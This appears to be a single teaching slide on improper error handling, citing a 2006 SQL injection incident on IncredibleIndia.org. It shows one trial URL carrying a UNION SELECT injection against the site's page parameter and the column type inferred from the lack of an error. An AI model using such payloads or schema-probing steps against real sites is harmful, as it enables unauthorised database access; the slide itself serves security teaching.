

# Improper Error Handling

IncredibleIndia.org SQL Injection (WHID 2006-27)

Trial 5:
http://www.incredibleindia.org/newsite/cms_Page.asp?PageID=828 union select mnccategoryid, 'varchar2', 'varchar3' from mncpage--

No Error

Conclusion:
The column 'mnccategory' is of integer type.

Reference:
http://www.webappsec.org/projects/whid/list_id_2006-27.shtml